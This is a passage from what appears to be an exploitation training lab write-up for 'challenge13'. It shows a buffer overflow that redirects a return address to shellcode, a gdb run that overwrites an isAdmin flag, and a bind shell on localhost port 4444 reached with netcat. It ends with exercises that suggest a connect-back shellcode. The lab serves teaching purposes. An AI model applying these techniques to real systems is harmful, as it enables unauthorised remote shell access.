 ## Exploit

We use the shellcode address `0x7fffffffdfd8`:
```python
ret_addr = "AAAA"
ret_addr = "\x7f\xff\xff\xff\xdf\xf8"[::-1]
```

We convert the address with `[::-1]` in little-endian format.

Test it:
```
root@hlUbuntu64:~/challenges/challenge13# gdb -q ./challenge13
Reading symbols from ./challenge13...(no debugging symbols found)...done.
gdb-peda$ set follow-fork-mode child
gdb-peda$ r
Starting program: /root/challenges/challenge13/challenge13
[New process 16806]
Client connected
Username: [...]
You ARE admin!
Be the force with you.
isAdmin: 0x41414141
```

Afterwards we can connect to localhost:4444, where the shellcode started our shell:
```
root@hlUbuntu64:~/challenges/challenge13# nc localhost 4444
ls
Makefile
challenge13
challenge13-exp-skel.py
challenge13-exp.py
challenge13.c
peda-session-challenge13.txt
```

GDB will provide some more output:
```
process 16806 is executing new program: /bin/dash
[New process 16808]
process 16808 is executing new program: /bin/ls
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Inferior 3 (process 16808) exited normally]
Warning: not running or target is remote
```

## Questions

* Can you make the exploit work, if the program is started standalone (without GDB)?
* Instead of the listener shellcode, can you use a connect-back shellcode?

